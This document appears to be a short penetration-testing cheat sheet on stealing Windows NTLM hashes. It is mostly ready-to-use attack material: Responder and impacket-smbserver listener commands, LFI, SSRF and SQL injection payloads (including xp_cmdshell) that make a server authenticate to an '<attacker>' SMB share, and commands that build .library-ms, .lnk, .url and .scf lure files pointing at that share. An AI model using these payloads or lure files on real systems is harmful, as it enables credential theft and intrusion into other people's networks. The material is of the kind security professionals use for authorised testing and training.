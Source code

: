 ```yaml
---
icon: ear
---
```


# Stealing NTLM hashes

## Listener

```bash
responder -I <interface>
```

```
impacket-smbserver share /dev/null -smb2support
```

## Possible Attacks

### Via web vulnerability

If you discover a web vulnerability (such as LFI, SQLI, XXE, SSRF, SSTI) that allows you to include remote files, you can exploit it to steal the NTLM hash of the user running the process. For example:

<pre class="language-powershell"><code class="lang-powershell"># LFI
?page=\\&#x3C;attaker>\shared

# SSRF
?url=file:////&#x3C;attaker>/shared

# SQL Injection
?id=1' union select null,load_file('\\\\&#x3C;attaker>\\shared'),null-- -
?id=1' union select null,(select x from OpenRowset(BULK '\\&#x3C;attaker>\shared',SINGLE_CLOB) R(x)),null-- -
<strong>?id=1' union select null,(EXEC xp_cmdshell 'dir \\&#x3C;attaker>\shared'),null-- -
</strong></code></pre>

### Via .library-ms file

```sh
cat > \!shared.library-ms <<EOF
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
  <searchConnectorDescriptionList>
    <searchConnectorDescription>
      <simpleLocation>
        <url>\\\\<attacker>\\shared</url>
      </simpleLocation>
    </searchConnectorDescription>
  </searchConnectorDescriptionList>
</libraryDescription>
EOF
```

### Via .lnk file

```powershell
pylnk3 c '\\<attacker>\shared' \!shared.lnk -i '\\<attacker>\shared\icon.ico'
```

### Via .url file

```sh
cat > \!shared.url <<EOF
[InternetShortcut]
URL=\\<attacker>\shared\
IconIndex=1
IconFile=\\<attacker>\shared\icon.ico
EOF
```

### Via .scf file

```sh
cat > \!shared.scf <<EOF
[Shell]
Command=2
IconFile=\\<attacker>\shared\icon.ico
[Taskbar]
Command=ToggleDesktop
EOF
```

## References

[https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/](https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/)
